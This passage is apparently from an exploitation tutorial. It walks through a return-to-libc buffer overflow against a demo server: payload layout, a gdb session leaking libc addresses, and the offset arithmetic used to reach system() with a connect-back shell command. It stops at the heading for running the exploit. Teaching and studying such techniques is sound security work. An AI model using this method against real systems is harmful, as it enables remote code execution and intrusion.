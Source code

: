   * 52 A's to fill the stack until before the return pointer
  * the address of _system()_ calculated from the leaked _send()_ address, that overwrites the return pointer
  * the address of _exit()_ calculated from the leaked _send()_ address
  * the address of the string containing the command to create the connect-back shell, calculated from the leaked _localbuf_ address
  * the string containing the command to create the connect-back shell

To calculate the addresses of _system()_ and _exit()_ from the leaked _send()_ address, we need to calculate the offsets first. So, we load _gdb_, set a breakpoint on _main()_, run the server and issue some commands to get the addresses of _send()_, _system()_ and _exit()_, as follows:

```
$ gdb --quiet ./server 
Reading symbols from /home/xxx/example1/server...done.
(gdb) b main
Breakpoint 1 at 0x8048754: file server.c, line 35.
(gdb) run
Starting program: /home/xxx/example1/server 

Breakpoint 1, main () at server.c:35
35	    libc = dlopen("libc.so", RTLD_LAZY);
(gdb) p send
$1 = {<text variable, no debug info>} 0x2098f0 <send>
(gdb) p system
$2 = {<text variable, no debug info>} 0x172b20 <system>
(gdb) p exit
$3 = {<text variable, no debug info>} 0x1689e0 <exit>
(gdb) 
```

After obtaining these addresses, we calculate the offsets as follows:

```
system_send_offset = system_addr - send_addr = 0x172b20 - 0x2098f0 = - 0x96dd0
exit_system_offset = exit_addr - system_addr = 0x1689e0 - 0x172b20 = - 0xa140
```

With these offsets we can calculate the _system()_ and _exit()_ addresses right from the the leaked _send()_ address.

To calculate the address of the string containing the argument to _system()_, we just add the size of the data we send before such string to the leaked stack address, so:

```
command_addr = leaked_stack_addr + 52 (AAA...) + 4 (system_addr) + 4 (system_ret_addr) + 4 (command_addr)
```

When the RET instruction of _process\_input()_ is processed, it will jump to the _system()_ function, execute the malicious command and return to the _exit()_ function.

## Running the exploit ##

We can run the exploit and execute commands on the server with the following steps.
